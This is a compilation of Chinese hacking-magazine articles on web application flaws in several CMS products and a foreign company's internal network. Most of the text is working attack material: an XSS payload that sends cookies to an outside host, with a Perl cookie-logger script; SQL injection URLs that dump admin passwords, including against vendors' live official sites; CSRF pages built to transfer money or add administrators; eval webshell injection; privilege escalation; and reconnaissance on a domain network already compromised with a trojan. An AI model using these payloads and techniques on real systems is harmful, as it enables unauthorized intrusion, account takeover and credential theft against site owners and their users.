在 arc.searchview.class.php 页面中声明了与搜索相关的变量共 24 个，其中最终在 URL 中得以显示的变量共 9 个，为：**keyword、searchtype、channeltype、OrderBy、kwtype、pagesize、typeid、TotalResult** 以及 **pageno**（starttime 和 searchtime 严格来说也算，不过有些时候并不显示于 URL 中），其中 keyword 是我们自行提交的变量，系统已做过滤处理，无法利用，略过不提。

对于 searchtype 变量，系统判断当其不等于 titlekeyword（在搜索页面上即体现为“仅搜索标题”选项）时，赋值为 keyword（在搜索页面上即体现为“智能模糊查询”选项），我们并无插足之处，无法利用，略过不提。

对于 channeltype、orderby、kwtype、pagesize、typeid、pageno 变量，与 searchtype 变量类似，系统最后都会判断分析变量的赋值，有效地阻挡了外界的干扰。这种非白即黑的原始哲学思想虽然对于我们已经过时了，但是它严谨而没有漏洞，很适合程序设计者们编写安全而又严谨的代码。

接着分析到 totalresult 变量，柳暗花明又一村，代码如下：

```php
function CountRecord()
{
    $this->TotalResult = -1;
    if(isset($GLOBALS['TotalResult']))
    {
        $this->TotalResult = $GLOBALS['TotalResult'];
    }
}
```

我们看到，系统只是声明了全局变量 totalresult，并未指定类型，到后面只是把 $nums 赋值给了 totalresult，直到最后系统并没有对 totalresult 进行验证处理。如果我们手动在 URL 中将 totalresult 赋值为恶意语句，跨站漏洞就诞生了。

我们构造 URL 如下：

```text
http://127.0.0.2/plus/search.php?keyword=11111&searchtype=&channeltype=&orderby=&kwtype=&pagesize=&typeid=0&TotalResult=<script>alert(/CCoz/)</script>
```

访问后可以看到在浏览器上熟悉的消息框蹦了出来，如图 1 所示。

那这个反射型 XSS 有什么用呢？猪哥很 YD 地把弹窗改成 iframe 标签去天涯、猫扑发帖刷流量去了。还有人说，不能利用，仅供 YY 罢了。其实不然，反射性 XSS 一样可以利用，只不过方法稍微复杂，而且需要用到社工罢了。

我们以 CGI 语言为例，要远程获取对方管理员的 cookie 要满足三个条件：

- 你要有一个接受 cookie 的网页；
- 管理员要访问该页面并让你得到 cookie，这就是社工在 XSS 的作用，不可或缺。
- 你已知对方后台地址。

在以上三个条件可以实现的前提下，我们开始 XSS 利用之路。构造 URL 如下：

```text
http://127.0.0.2/plus/search.php?keyword=11111&searchtype=&channeltype=&orderby=&kwtype=&pagesize=&typeid=0&TotalResult=<script>document.location='http://www.ccoz.org/cgi-bin/evil-cookie_logger.cgi?'+document.cookie</script>
```

这个 YD 的 URL 其作用在于将管理员的 cookie 记录到我的网站（www.ccoz.org）。cgi-bin 目录下的 evil_cookie_logger.cgi 文件代码如下：

```cgi
#cross-site scripting vulnerability
$borrowed_info=$ENV{'QUERY_STRING'};
$borrowed_info=~s/%([a-fA-F0-9][a-fA-F0-9])/pack("C",hex($1))/eg;
open(EVIL_COOKIE_LOG, ">>evil_cookie_log") or print "Content-type:text/html\n\n something went wrong\n";
print EVIL_COOKIE_LOG "$borrowed_info\n";
print "Content-Type:text/html\n\n";
close(EVIL_COOKIE_LOG);
```

这个脚本首先通过 `$ENV{'QUERY_STRING'}` 获取 cookie 值，然后赋值给 `$borrowed_info` 变量，再通过 `open(EVIL_COOKIE_LOG, ">>evil_cookie_log")`，保存 cookie 到 evil_cookie_log 文件。

最后一步我们就是要寻找一个可以修改 cookie 的浏览器，修改 cookie 进入网站后台，到这里基本上就胜利了。经测试，本漏洞也可用于 5.5 版本的 dedecms。

本以为漏洞到这里就结束了，可是猪哥又扔了个爆绝对路径的漏洞过来，问题还是出在 search.php 上。我很纳闷，自己分析的时候并没发现这个漏洞啊？仔细一看，原来猪哥利用了个常出现的冷门函数——starttime。

当我们手动在 URL 中为 starttime 变量赋值为整数（比如 1、22、5555555……）时，系统会报错，并爆出网站的绝对路径。构造 URL 如下：

```text
http://www.xypinke.com/plus/search.php?typeid=555&keyword=aaa&starttime=1
```

这里我们可以从错误信息中发现漏洞出在 include 目录下的 arc.searchview.class.php 文件的第 296 行，附近相关代码如下：

```php
$ksqls = array();
if($this->StartTime > 0)
{
    $ksqls = " arc.senddate>".$this->StartTime." ";
}
```

```php
if($this->TypeID > 0)
{
    $ksqls[] = " typeid in (".GetSonIds($this->TypeID).") ";
}

if($this->ChannelType > 0)
{
    $ksqls[] = " arc.channel=".$this->ChannelType." ";
}

$ksqls[] = " arc.arcrank > -1 ";
```

从以上代码可以看到，首先建立动态数组 `$ksqls`，然后逐步判断各变量的赋值，从而对数组进行成员赋值。可是错误并不是出现在第 296 行（`$ksqls[] = " typeid in (".GetSonIds($this->TypeID).") ";`），而是在其上的 292 行（`$ksqls = " arc.senddate>".$this->StartTime." ";`），少写了一个数组的标识符 `[]`，从而导致数组数据格式上下不符，进而也就爆出了路径。

补救办法很简单，把“`$ksqls = " arc.senddate>".$this->StartTime." ";`”改为“`$ksqls[] = " arc.senddate>".$this->StartTime." ";`”即可使数组数据格式一致，错误将不复存在。

本文简单地分析了 dedecms 的 0day XSS 和一个爆路径的小漏洞（也不能说小，漏洞无小事），并简单讲解了反射型 XSS 的利用，本人水平有限，其中难免有错，还望大家指正。

> 编辑点评：作者看来对 PHP 代码还是下了点功夫的，看出了 CSRF 漏洞。看作者的信息好像才是高二，真是后生可畏呀。

# 0Day 发掘技术入门篇之四：Weencompany 0day

本文分析的是常规的 PHP+MySQL injection

- 测试环境：PHP 5.2.6 Ubuntu 9.04
- 测试软件：weenCompany_ChineseEnglish_JT_V4.0.0_UTF8
- PHP/ini 配置：magic_quotes_gpc On，register_globals Off

## 一、前言

这一篇我们分析的是闻泰网络旗下的 weenCompany 闻名企业网站系统，其官方网站为 http://www.weentech.com，当前最新版本为 4.0.0。weenCompany 是一款企业自助建站系统，支持 Linux、Windows 等操作系统，中英双语言，程序简洁，功能强大。

简述分析过程，希望对大家有所帮助，有错误或疏漏之处，欢迎批评指正。程序代码放于光盘中，大家自行架设吧。

## 二、漏洞分析及利用

打开 index.php 第 98 行，关键代码如下：

```php
if(isset($_GET['articleid']) AND ereg("^[0-9]+$", $_GET['articleid']))
{
```

```php
if($article := $DB->query_first("SELECT title, metakeywords, metadescription FROM ".TABLE_PREFIX." ... $_GET['moduleid'] ... WHERE articleid = '".$_GET['articleid']."'"))
{
    // 注入点
    $mainsettings['websitetitle'] = $article['title'].' - '.$mainsettings['websitetitle'];
    $mainsettings['metadescription'] = ', '.$article['metadescription'];
    $mainsettings['metakeywords'] = ', '.$article['metakeywords'];
}
```

不难看出，程序只对 `$_GET['articleid']` 做了验证，并未对 `$_GET['moduleid']` 做任何过滤，就带入数据库查询，导致 SQL Injection 漏洞。

我们简单构造如下语句：

```text
http://127.0.0.1/cms/weenCompany4/index.php?categoryid=1&m2_articleid=3&articleid=2&moduleid=m2_news%20where%20articleid=2%20and%201=2
```

发现报错，如图 1。我们需要使用 `#` 号来屏蔽后面的多余语句，重新构造联合查询。

## 漏洞练练看


查询语句如下：

```text
http://127.0.0.1/cms/weenCompany4/index.php?categoryid=1&m2_articleid=3&articleid=3&moduleid=m2_news%20where%20articleid=-2%20%20union%20select%201,2,3%23;
```

浏览后发现页面并无任何变化，不要着急，我们在页面空白处按鼠标右键，查看源文件，如图2。

发现 1、2、3 字段已经爆出来了，最后构造查看账号密码语句如下：


```text
http://127.0.0.1/cms/weenCompany4/index.php?categoryid=1&m2_articleid=3&articleid=3&moduleid=m2_news%20where%20articleid=-2%20%20union%20select%20concat%28username,0x3a,password%29,2,3%20from%20cws_users%20where%20userid=1%23;
```

仔细看看顶部标题处，嗯，账号密码已经出来了，如图3。

依然在空白页面按鼠标右键查看源文件，如图4，账号密码分别为：admin:21232f297a57a5a743894a0e4a801fc3。


## 三、实例演示

检测下闻泰网络官方网站 http://www.weentech.com；打开如下连接：

```text
http://www.weentech.com/index.php?categoryid=1&m2_articleid=3&articleid=3&moduleid=m2_news%20where%20articleid=2%20%20union%20select%20concat%28username,0x3a,password%29,2,3%20from%20cws_users%20where%20userid=1%23
```

可以看到用户密码显示到了浏览器左上角，如图5。再次在空白页按鼠标右键，查看源文件，如图6，用户名及密码可以复制了。

> 【weenCompany_ChineseEnglish_JT_V4.0.0_UTF8.rar 已收录在本期光盘】


编辑点评：这种漏洞，稍微测试也可以找到，希望作者以后多找一些黑盒测试不出的漏洞。


# CSRF 的陷阱

本文对 CSRF 攻击做了一次简单阐述

## [0x01. Introduction]

CSRF，即 Cross Site Request Forgery，直译过来便是跨站请求伪造。国外早在 2000 年就已经提出了这个概念，国内在 2006 年才开始关注 CSRF，2008 年之后 CSRF 开始渐渐在国内火起来了。

乍看 CSRF 似乎和 XSS 没有什么区别，而事实上他们之间有着本质的区别：

> XSS 中，受害者是信任发生 XSS 的网站的，然后被 XSS 盗取个人信息，比如 Cookie；但 CSRF 中是网站相信用户的 HTTP 请求，并且正常处理这些被授权为合理的请求。

CSRF 的性质如图 1 所示，大家可以参考一下。

由此我们可以看出，两者是完全相反的攻击方式，**CSRF 本质是诱骗受害者在授权会话状态下点击站外经过攻击者精心构造的含有脚本伪造请求的页面，提交 HTTP 请求的表单页面，强迫客户端发起请求。**简单说来，就是以受害者的名义发起请求。套用 Lake2 大牛的话说，就是我们可以把它看作 HTTP 会话劫持。


```php
<?php
session_start();
if(isset($_POST['ID'])) {
    $ID = $_POST['ID'];
} else {
    die("Specify a ID");
}
if(isset($_POST['Money'])) {
    $Money = $_POST['Money'];
} else {
    die("Specify the amount of Money");
}
//This function safely send the money to the target
send_money($ID, $Money);
?>
```

如果此网站存在 CSRF 的攻击点，那么攻击者就开始构造一个攻击网页，代码如下：

```html
<!-- StealMoney.html -->
<html>
<head>
<script type="text/javascript">
function StealMoney() {
    iframe = document.frames["StealMoney"];
    iframe.document.Submit("Order");
}
</script>
</head>
<body onload="StealMoney()">
<iframe name="StealMoney" display="none">
    <form method="POST" name="Order" action="http://www.xxx.com/Order.php">
        <input type="hidden" name="ID" value="1">
        <input type="hidden" name="Money" value="100">
    </form>
</iframe>
</body>
</html>
```

我们可以看到攻击者在 iframe 中构造了 Hidden 行为来向目标的 xxx 站点提交一次请求，其效果就是受害者的账号进行了一次 Order.php 的请求。

接着需要做的就是千方百计地忽悠受害者在已经和 xxx 站点建立授权会话，并且会话没有过期的情况下，访问该恶意网页。这里插一句题外话：关闭浏览器并不等于会话过期，这点通常都会被用户所忽略。

现实中很多网站编写者为省力，都喜欢用 `$_REQUEST` 来进行变量的提交，在这种情况下 CSRF 就有更广阔的天地了。我们把上面的处理表单页面进行修改，代码如下：

```php
<?php
session_start();
if(isset($_REQUEST['ID'])) {
    $ID = $_REQUEST['ID'];
} else {
    die("Specify a ID");
}
if(isset($_REQUEST['Money'])) {
    $Money = $_REQUEST['Money'];
} else {
    die("Specify the amount of Money");
}
//This function safely send the money to the target
```

## [0x02. CSRF Attack]

一个 POST 型的 CSRF 攻击过程如下，我们看一个简单的示例。

- 攻击者发现一个存在 CSRF 的站点；
- 攻击者构造一个可以自动发送一些请求到该站点的 HTML 页面；
- 受害者登录该站点获得授权（即 Cookie 或者 Session）；
- 攻击者使受害者点击构造的页面（这个就要看个人的忽悠功力咯）；
- 受害者浏览了该页面；
- 发送 HTTP 请求之后恶意代码执行，攻击完成！ :-)

假设某网站存在这么一个表单：

```html
<form action='Order.php' method='POST'>
    <p>ID: <input type='text' name='ID' /></p>
    <p>Money: <input type='text' name='Money' /></p>
    <p><input type='submit' value='Order' /></p>
</form>
```

处理的 Order.php 代码如下：

```php
send_money($ID, $Money);
?>
```

那么由于 `$_REQUEST` 的特殊性，攻击者就可以构造一个 GET 请求：`http://www.xxx.com/Order.php?ID=1&Money=1`，然后开始构造攻击网页，很简单，就一句代码：

```html

```

和上例中一样，受害者先与 xxx 站点发起授权会话，然后访问这个页面，接着 CSRF 攻击发生了。当然，上述两个示例对于刚入门的朋友可能不是那么清楚，毕竟都是一些基于 CSRF 原理的简单演示。

那么下面我们来看一个实战中拿站的简单例子。比如当我们抓包或者分析了一套源代码后，发现在管理员权限下只要提交如下请求就可以新增一个名为 Allen、密码为 Allen 的管理员：

```text
http://www.xxx.com/admin/admin_add.asp?action=save&id=2&name=Allen&password=Allen
```

然后我们在自己的空间中建立一个网页，代码如下：

```html
<!-- Admin_Add.html -->

```

之后就看怎么让管理员来访问我们这个网页了，比如可以在留言板留言，就说：管理员好，请您看下 `http://www.allen.com/Admin_add.html` 和这个网站有什么关系，为什么上面有你们网站的一些敏感信息。诸如此类，这个时候就要看你的忽悠能力了。当然，如果那里存在 XSS 就更理想了。

可能管理员比较冷淡，根本不管留言或者几乎不去前台看，那我们就要想一些其他的方法来让管理员踩进我们的陷阱。

## 0x03 Find And ByPass

如何发现 CSRF，事实上是一个体力活。我基本上是先抓包，然后去掉 Referer 字段重新提交来检测的。如果这么做依然有效，那么基本就存在问题了。至于一些开源的程序，那当然就是阅读源代码了，不过这个还是体力活啊。

在此顺便给出一些针对 CSRF 防御的绕过思想。由于是参考而来的，我就简要说下自己的理解，具体还请有需要的读者自己去查阅资料。

- 结合 XSS 是个显然的必要。它简直天生嘴歪，而且 XSS 相对而言更具有主动性；
- 大多数网站都是有诸如 IMG、link 等标签的，我们需要的是精心构造 URL，然后通过那个标签发布；
- 结合 Ajax、跨域技术，比如 XMLHttp、`setRequestHeader()` 函数伪造 HTTP 头等；
- 使用 Flash，它是当前唯一使用跨域策略机制的，对于 CSRF 来说简直是鱼见了水。

总结一句，就是与其它黑客技术结合，XSS 尤其是重中之重。

## 0x04 Conclusions

通过此文，由我对 CSRF 作了简单的介绍，可以清楚地看到 CSRF 的强大。早前剑心大牛就使用 CSRF 攻击实现了 DVBBS 后台的 SQL 注射，而 CSRF 也已经出现在了 sns 等社区类网站的蠕虫应用中。

在“直接 SQL Inject”即将退出历史舞台的今天，网络再也不是以前那个随便用个工具扫描就能拿站的世界了。在此大胆预言，XSS 和 CSRF 必将成为未来 WEB 安全的主题，最后感谢 xyzreg 对本文的指导。

**编辑点评：** 其实 XSS 的水平高低和 JavaScript 水平成正比，要研究 XSS，一定要精通 JavaScript。CSRF 的概念刚提出来的时候，我去了解了一下，心想这类方法不是和我 2004 年写的文章《一次巧妙入侵传说水吧聊天室经历》一样吗？大家可以百度一下我的文章，可能我还是没研究透呀，见笑，有空再多研究一下。

# 老木：没防住的凡诺企业网站系统

从本文可以学到：

- 凡诺企业网站系统漏洞分析
- 利用漏洞拿下官方 shell

听朋友说《凡诺企业网站管理系统》是个漏洞大户，于是从网上搞了套 1.2 的免费版。感觉免费版的话，一般都会存在不少的缺陷，结果真的如我猜想一样，而且其安全性令我大失所望。

## 一、免费版源码分析

下来看一看之后，发现免费版的源码完全没有任何安全性可说，到处都充斥着注入，我当时就懵了，就挑一个最简单的来利用吧。

`custom.asp` 文件相关代码：

```asp
<%
exec="select * from [custom] where id=" & request.QueryString("id")
set rs=server.createobject("adodb.recordset")
rs.open exec,conn,1,1
%>
```

很明显，ID 没有经过任何的过滤就带入了数据库查询，一个相当弱智的 SQL 注入。

利用方法：`http://127.0.0.1/custom.asp?id=1 union select 1,user_name,password,4 from administrator`

提交后结果如图 1。

进入后台后，发现上传调用的是 eWebEditor 的上传，其版本是 5.5 的。简单看了下，这个版本的后台登录账号密码是存放在 `eWebEditor\asp` 目录下的 `config.asp` 里的。得到账号密码后，直接就可以登录 eWebEditor 的后台，如图 2。

拿 shell 的过程也很简单，首先选择“样式管理”，直接拷贝一个系统的默认样式，单击设置刚才新增的样式，如图 3。需要注意的是，设置图 3 中 A 时需要填写绝对根路径，而图 3 中 B 处直接添加一个类型为 asp 就可以上传 asp 文件了。之后预览我们刚才新增的样式，单击上传图片按钮就可以上传 asp 文件了。上传成功后转到代码模式，就可以查看到我们刚才上传的 ASP 文件的路径。


图1 查询出用户名和密码


图5 拿到 webshell


图6 Serv-U 提权


图2 eWebEditor 后台


图7 提权成功


图3 新增的样式

## 三、拿下官方站

如此多的简单漏洞，在本地玩实在无趣，于是跑到官方来看着。虽然官方站同样存在注入，但是在我测试的时候因为一直没能猜出列的长度，也就没有猜出网站的管理后台，所以利用 eWebEditor 拿 shell 的思路也就中断了。

但是当我用啊 D 扫后台的时候，发现网站根目录下面有个 test 目录，打开后是一个免费版的演示程序。进行到这里，其实 SQL 注入已经不是重点了，就算你能猜出后台账号和密码进入后台，


图4 登录后台

——但是你仍然拿不到 shell。

拿 shell 始终要靠 eWebEditor。正当我在困惑怎么样去获得这个演示站的 eWebEditor 账号密码时，突然从心里冒出一个想法：既然是演示站，而且都是免费版的程序，可不可能管理员不会去改 eWebEditor 的账号密码呢？

说试就试，输入我在本地的程序里发现的 eWebEditor 后台登录账号密码，居然 RP 爆发，成功登录了，如图4。

剩下的事情就顺理成章了，快速拿到官方站的 shell，如图5。

接着就很轻松了，随便试了下 shell 自带的 Serv-U 提权，如图6。

居然直接提权成功，如图7，我当时就更懵了，如果中国再多点这样的程序，真不知道网络会变成什么样子！

本文并没有什么技术含量，但是需要大家去理解的是入侵中的融会贯通，更重要的是千万不能忽视任何一个可能有漏洞的地方。

> 编辑点评：同样是“兄弟企业网站系统”，这篇文章的作者在分析漏洞后，针对官方网站进行了渗透，其中用到了一些非常规渗透手段，演示了如何融会贯通，希望对大家有用！

# 对阿赛企业网站系统 V2 的漏洞分析

图 cnyyan

从本文可以了解阿赛企业网站系统 V2 的漏洞分析。

今天到 codepub 下载了一套叫“阿赛企业网站系统 V2”的 ASP 程序，大小还不到 1M，价格却是 200 元／套！检查了它的安全性，发现注入漏洞就有好几个，这样的企业网站还真不值这个价。

## 一、初探注入

点了一个新闻链接，跳到了 `http://127.0.0.1/AsaiCoEV2/web/newsshow.asp?id=4`，在后面加单引号，弹出对话框“非法参数”。再输入 `and 1=1`，弹出同样的警告，如图 1。再去看 `newsshow.asp` 这个文件，没有发现 `request` 等接收字符，原来是放在包含文件下。继续跟踪到 `/AsaiFun/SubNews.asp` 这个文件，查找 ID 变量，找到如下代码：


```asp
<%
'函数名：查看资讯
Sub ZXShow()%>
<%
Call checknum("id")
id=request.querystring("id")
set rsshow=server.createobject("adodb.recordset")
sql="select * from AsaiCoE_News,AsaiCoE_NewsClass where Class=classid and id="&id&" "
rsshow.open sql,conn,1,1
if rsshow.eof and rsshow.bof then
 response.write"暂时没有内容"
else
%>
```

id 只被 `checknum` 函数过滤，应该是检查是否为数字的一个函数，不过找了很久都找不到这个函数，算了，反正知道它是可以防注入的，可以测试下。先把 `Call checknum("id")` 这行代码去掉，再回到刚才的地址，在后面重新输入 `and 1=1`，看，没有弹框并返回了正常，如图 2。


继续找找有没有其他漏洞，在网站根目录的默认首页得到如下代码：

```asp
<%
Response.redirect "web/index.asp"
%>
```

网站引用的文件大多数在 `web` 这个目录下，我就去那里挖掘吧。一下子就在 `down.asp` 文件里发现了注入，代码如下：

```asp
<%if request.querystring("Class")<>"" then%>
```

跟着下去就没有查询语句了，都是放在 `AsaiFun/SubDown.asp` 里，相关代码如下：

```asp
<%
'函数名：下载列表
Sub XZTList()%>
<table width="100%" border="0" cellspacing="5" cellpadding="0"><tr>
<%
Cla=TRIM(request.querystring("Class")) ' //接受 class 并去掉两边的空格
ik=1
sql="select * from AsaiCoE_Down,AsaiCoE_DownClass where Class=classid "
If request.querystring("Class")<>"" Then
 sql=sql&" and classid='"&Cla&"' " ' //注入产生
End If
If trim(request("s"))<>"" Then
 sql=sql&"and title like '%"&trim(request("s"))&"%' or content like '%"&trim(request("s"))&"%'" '
End If
sql=sql&"order by id desc"
Set AsaiPages=New AsaiPageCla
AsaiPages.GetConn=conn
AsaiPages.GetSql=sql
AsaiPages.PageSize=12
set rsli=AsaiPages.GetRs()
for i=1 to AsaiPages.PageSize
if not rsli.eof then
%>
```

以上代码有两个变量 `Class` 和 `s`，都是直接用 `request.querystring` 接受变量再去掉两边的空格就进入查询，一下子产生了两个注入漏洞。

同样是直接接受变量并只过滤空格就进入查询，难道管理员连一个防注入文件也不舍得放进去吗？另一个文件 news.asp 有包含 SubNews.asp，几乎是一样的代码，我就不贴了。

class=3 后输入 and 1=1 和 and 1=2，结果分别如图 3、图 4。

## 三、继续狂注

免得一个一个文件去看，只好拿起啊D直接浏览 http://127.0.0.1/AsaiCoEV2，不到一会儿就蹦出好几个注入点，如图 5，product.asp 文件和 news.asp 文件。

其中 product.asp 文件的处理程序在 AsaiFun\SubProduct.asp 下，相关代码如下：

```asp
<%
' 函数名：图片新闻列表
Sub ZXTList()%>
<table width="100%" border="0" cellspacing="5" cellpadding="0"><tr>
<%
Cla=Trim(Request.QueryString("Class"))
ik=""
sql="select * from AsaiCoE_News,AsaiCoE_NewsClass where Class=classid"
If Request.QueryString("Class")<>"" Then
 sql=sql&"and classid='"&Cla&"' "
End If
if Trim(Request("s"))<>"" Then
 sql=sql&"and ( title like '%"&Trim(Request("s"))&"%' or content like '%"&Trim(Request("s"))&"%' )"
End If
sql=sql&"order by id desc"
Set AsaiPages=New AsaiPageCla
AsaiPages.GetConn=conn
AsaiPages.GetSql=sql
AsaiPages.PageSize=12
set rsl=AsaiPages.GetRs()
```

```asp
for i=1 to AsaiPages.PageSize
if not rsl.eof then
%>
```

## 三、获取 webshell

我用啊D检测注入点找不到表，就去数据库文件看看，居然没有发现管理员用户表，难道说没有后台吗？如图 6。

但是我打开 asaidmin/ACE_Login.asp 用默认的 admin 却登录进去了，这下我可摸不着头脑了。再回到数据库翻了好几遍都没找到像 admin 的字段、值等，后来去看说明文件，写着：

> 编辑器管理后台使用方法[仅商业版可用]  
> 地址：asaiedit/admin/  
> 用户：admin  
> 密码：admin  
>
> 网站数据库位置及其修改方式  
> 数据库文件位置 asaidata/  
> 数据库连接文件 inc/conn.asp  
>
> 网站设置修改  
> 你可以登录后台修改，或者直接修改 inc/config.asp 文件保存即可。

在 config.asp 配置文件下可设置和定义管理员账户和密码，相关代码如下：

```asp
<%
Const company="阿赛工作室" '公司名称
Const SiteTitle="阿赛工作室" '网站标题
......
Const sysname="admin" '后台登录账号
Const syspass="admin" '后台登录密码
%>
```

先不管了，看下后台有什么利用的地方。发现没有数据库备份功能，就用前面配置文件插入一句话木马的方法吧。在“系统设置”下选择“网站资料设置”，在“公司名称：”写入 `"%><%eval request("1")%><%Const a="`，如图 7。

再去看下，已经写入 config.asp 文件了，可以看到如下代码：

```asp
<%
Const company="%><%eval request("1")%><%Const a=""
Const SiteTitle="阿赛工作室" ' 网站标题
```

最后用一句话客户端连接 `http://127.0.0.1/AsaiCoEV2/inc/config.asp` 就得到一个 webshell 啦，如图 8。

文章就到此结束，这样的程序存在如此多的注入漏洞还拿出来卖钱，哎！不得不感叹一声！最后，欢迎大家到 nohack 与我交流，我的 ID 是 cnryan。

> 编辑点评：很“正常”的一篇漏洞分析，没有多少新东西。

# 0Day 发掘技术
## 入门篇之三

## ——实例发掘深喉蛇 SHLCMS Ver3.8 正式版 0Day

- 从本文你可以学到：
- 1. 实例分析 SHLCMS Ver3.8 漏洞
- 2. 漏洞的利用过程

测试环境：Apache/2.2.11  PHP/5.2.9  Mysql/5.1  
测试软件：深喉蛇 SHLCMS Ver3.8  
下载地址：http://www.shenhoulong.com  
PHP.ini 配置：magic_quotes_gpc On  register_globals Off

## 前言

继续我们的 0day 发掘技术入门，这次检测的 CMS 是深喉蛇 3.8 正式版，相对还是比较简单的，适合新手朋友练习入门。源码在光盘中，大家自行搭建吧。

## 漏洞挖掘

首先我们打开网站首页文件 **index.php**，部分代码如下：

```php
<?php
......
$_REQUEST = cleanArrayForMysql($_REQUEST);
$_GET = cleanArrayForMysql($_GET);
$_POST = cleanArrayForMysql($_POST);
$request = $_REQUEST;
......
$request['p']=intval($request['p']);
$request['c']=intval($request['c']);
$request['r']=intval($request['r']);
$request['i']=intval($request['i']);
$request['comment']=intval($request['comment']);
$request['mdtp']=intval($request['mdtp']);
......
?>
```

我们发现 $_GET、$_POST、$_REQUEST 均用 cleanArrayForMysql 函数处理，其代码如下：

```php
function cleanArrayForMysql($data)
{
    return (is_array($data)) ? array_map('cleanArrayForMysql', $data) : mysql_real_escape_string($data);
}
```

判断是否为数组，是则用 array_map() 返回一个数组，$data 中的所有单元都经过 cleanArrayForMysql 作用，否则就用 mysql_real_escape_string 函数过滤，并且下面的 $request['p']、$request['c']、$request['r']、$request['i'] 等变量都被 intval 过滤。

开始查找漏洞之路吧，由于 index.php 中将 $_REQUEST 赋值给 $request，所以我们用 EditPlus、Dreamweaver 或者其他工具搜索“$request”关键字。我们发现，很多函数中存在用 $request 提交变量，但没有经过过滤。

举个例子，我们打开根目录 **/content/poll/index.php** 文件，代码如下：

```php
<?php
function index()
{
    if (!empty($request['vtype']) && !empty($request['choice']))
    {
        $sql="select * from ".TB_PREFIX."poll_category where id=".$request['r'];
        $poll=$client::$db->get_row($sql);
        if ($request['vtype']=="a")
        {
            $sql="update ".TB_PREFIX."poll set num=num+1 where id=".$request['choice']; // 未过滤
            $db->query($sql);
            $sql="update ".TB_PREFIX."poll_category set client_ip='".$insert_ip."' where id=".$request['r'];
            $db->query($sql);
            echo "<script>alert('投票成功！');window.location.href='".$url."';</script>";
        }
    }
    else if (!empty($request['vtype']) && empty($request['choice']))
    {
        echo "<script language='javascript'>alert('您没有添加选项！');window.history.go(-1)</script>";
        exit;
    }
}
function view()
{
    global $db,$params,$request;
}
```

```php
$sql='select * from '.TB_PREFIX.'poll_category where id='.$request['r']; // 在 index.php 中被 intval 过滤
$poll = $db->get_row($sql);
...
}
?>
```

排除 index.php 中被 intval 函数过滤的变量，我们发现 `$request['choice']` 并未进行任何过滤就带进数据库查询。

## 构造语句

当然，我们要在后台开启投票模块。开始测试，打开 `http://127.0.0.1/cms/dtnetv1/?p=20&a=view&r=1` 查看投票结果，注意“增加网站模块”的选项，其值为 28，如图 1。

我们提交 `http://127.0.0.1/cms/dtnetv1/?p=20&vtype=a&choice=1 and 1=1`，显示投票成功，然后打开 `http://127.0.0.1/cms/dtnetv1/?p=20&a=view&r=1`，发现结果增加 1，变为 29，如图 2。

这样就证明了语句执行成功。我们再提交 `http://127.0.0.1/cms/dtnetv1/?p=20&vtype=a&choice=1 and 1=2`，依然显示投票成功，但是其值没变。打开 `http://127.0.0.1/cms/dtnetv1/?p=20&a=view&r=1`，发现结果不变。由此我们可以手工注射得出管理员密码。

开始构造语句，先查询管理员密码的第一位，我们依次提交如下语句：

```text
http://127.0.0.1/cms/dtnetv1/?p=20&vtype=a&choice=1 and ascii(substring((SELECT pwd from shl_user limit 0,1),1,1))=100

第二位：
http://127.0.0.1/cms/dtnetv1/?p=20&vtype=a&choice=1 and ascii(substring((SELECT pwd from shl_user limit 0,1),2,1))=48

第三位：
http://127.0.0.1/cms/dtnetv1/?p=20&vtype=a&choice=1 and ascii(substring((SELECT pwd from shl_user limit 0,1),3,1))=51
```

以此类推，得出密码为：

`100,48,51,51,101,50,50,97,101,51,52,56,97,101,98,53,54,54,48,102,50,48,52,48,97,101,99,51,53,56,53,48,99,52,100,97,57,57,55`

转换后得到：`d033e22ae348aeb5660f2040aec35850c4da997`，即其 md5 值，接下来怎么做就不用我教了吧？

# 写在最后

书山有路勤为径，学海无涯苦作舟。学习的过程虽然艰苦，但付出总有回报，祝福所有辛勤努力的朋友早日成功。感谢大家，下期再见。

> 编辑点评：看似不存在的漏洞，换个思路思考下就会发现新的突破点。挖掘漏洞往往都是这样，当然这也需要你平时有足够多的积累，才可以在用到的时候想起。

本文是域内网渗透的经典流程，大家可细心阅读一下。

最近在整理资料时发现一些渗透笔记，于是翻开看看，原来有一个老外的内部网还没有拿下，当时已经给内网的一台机器种植了木马，反正最近闲着没事，就拿它来练练手吧。打开远程，居然肉鸡还在，废话就不多说了，下面开始吧。

> 最近和无敌被寂寞聊了很多，大都知道这个 ID 吧？“我问他下一个题材做什么，他说不如做：我说你好像什么也没做，他说不做呀我来讲啊一样；他喜欢每天晚上看书写代码，我呀？俺是吃了个啥？也瞎着闹腾起来。”这样的调侃，真的是寂寞无敌了，不知我们的读者当中有多少人能做到这样？我是每天晚上下联众的一分钟象棋快棋，我也很寂寞很无敌的……

首先来看看已经控制的这台电脑在内网中充当着什么角色，并收集一些常规的信息。执行 `ipconfig /all`，返回信息如图 1。

从这里我们可以看出，此计算机名为 `abimaq6`，IP 地址是 `172.16.16.139`，子网掩码为 `255.255.240.0`，网关 `172.16.16.1`，DNS 服务器分别是 `172.16.16.2` 和 `172.16.16.3`。还有一个重要的信息，就是这台机器处于域管理模式中，所在域为 `abimaq.local`。

既然是域结构，再来获取一下域用户列表，执行 `net user /domain`，该命令可显示所有的域用户名单。如图 2，看来域用户还真多。

```text
ipconfig /all

Windows 2000 IP Configuration

Host Name . . . . . . . . . . . . : abimaq6
Primary DNS Suffix . . . . . . . : abimaq.local
Node Type . . . . . . . . . . . : Hybrid
IP Routing Enabled. . . . . . . : No
WINS Proxy Enabled. . . . . . . : No
DNS Suffix Search List. . . . . : abimaq.local

Ethernet adapter Local Area Connection 2:

Description . . . . . . . . . . : 3Com Gigabit NIC (3C2000)
Physical Address. . . . . . . . : 00-0A-5E-53-D9-A1
DHCP Enabled. . . . . . . . . . : No
IP Address. . . . . . . . . . . : 172.16.16.139
Subnet Mask . . . . . . . . . . : 255.255.240.0
Default Gateway . . . . . . . . : 172.16.16.1
DNS Servers . . . . . . . . . . : 172.16.16.2
                                    172.16.16.3

Ethernet adapter Local Area Connection:

Media State . . . . . . . . . . : Cable Disconnected
Description . . . . . . . . . . : Intel 8255x-based PCI Ethernet Adapter (10/100)
Physical Address. . . . . . . . : 00-30-BD-D0-9B-C9
```

现在知道这个内网只有一个域，还知道域用户，我们现在要做的事情就是要获取域当中的管理员列表，因为上面获取的是全部用户信息，包括一般用户跟管理员。这里要获取域管理员列表可以使用 `net group "domain admins" /domain` 命令，如图 4。

要是你还想获取某用户的详细信息的话，可以使用 `net user 域用户名 /domain` 命令。

```text
